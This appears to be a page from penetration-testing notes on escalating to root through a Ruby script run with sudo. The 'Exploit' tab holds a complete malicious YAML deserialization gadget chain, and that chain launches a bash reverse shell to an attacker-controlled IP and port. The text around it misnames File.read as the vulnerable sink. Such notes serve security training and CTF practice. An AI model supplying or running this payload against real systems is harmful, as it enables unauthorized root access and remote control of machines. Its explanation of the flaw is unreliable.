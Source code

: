 # Ruby

## Theory

Ruby scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, ruby scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### YAML Code Execution

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `File.read()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/ruby sample.rb
```

Check if we have control over the input of the vulnerable function
```ruby
File.read(’sample.yml’)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
here is an example of a malicious `sammple.yml` file passed to the `File.read()` function:
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve

```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/" %}